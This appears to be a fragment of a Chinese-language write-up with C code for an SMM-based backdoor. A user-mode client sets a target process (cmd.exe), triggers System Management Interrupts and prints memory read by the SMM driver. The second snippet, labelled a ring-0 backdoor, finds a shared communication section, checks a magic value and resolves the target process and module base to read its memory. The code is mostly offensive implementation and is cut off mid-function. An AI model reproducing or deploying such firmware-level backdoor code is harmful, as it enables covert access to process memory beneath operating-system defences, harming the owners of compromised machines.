 ```
  strcpy((char*)protocol.process_name, "cmd.exe");
  wcscpy((wchar_t*)protocol.module_name, L"cmd.exe");
  protocol.offset = 0;//= 0x2F000;
  protocol.read_size = 15;
  memset((void*)protocol.read_buffer, 0, sizeof(protocol.read_buffer));

  while (true)
  {

    // Trigger a SMI and the driver will find this process.
    TriggerSmi();
    // Print out the bytes the SMM driver read for us.
    printf("Smi count: %llu\n", protocol.smi_count);

    for (int i = 0; i < protocol.read_size; i++)
    {
      printf("%02X ", protocol.read_buffer[i]);
    }

    Sleep(5000);
  }
}

```  
  
R0后门程序:  
```
    // Get the process we write our communication buffer to
    UINT64 cprocess = GetCommunicationProcess();
    if (cprocess)
    {
        UINT64 base = GetBaseAddressModuleX64(cprocess, (unsigned short*)L"SmiUM.exe");

        if (base)
        {
            UINT64 section = GetSectionBaseAddressX64(cprocess, base, (unsigned char*)".ZEPTA");

            if (section)
            {
                SmmCommunicationProtocol protocol = { 0 };
                ReadVirtual(section + 0b0, GetProcessCr3(cprocess), (UINT8*)&protocol, sizeof(SmmCommunicationProtocol));

                if (protocol.magic != SMM_PROTOCOL_MAGIC)
                {
                    return EFI_SUCCESS;
                }

                UINT64 tprocess = GetEProcess((const char*)protocol.process_name);

                if (tprocess == 0)
                {
                    return EFI_SUCCESS;
                }

                UINT64 tbase = GetBaseAddressModuleX64(tprocess, protocol.module_name);

                if (tbase == 0)
                {
                    return EFI_SUCCESS;
                }
                __debugbreak();

```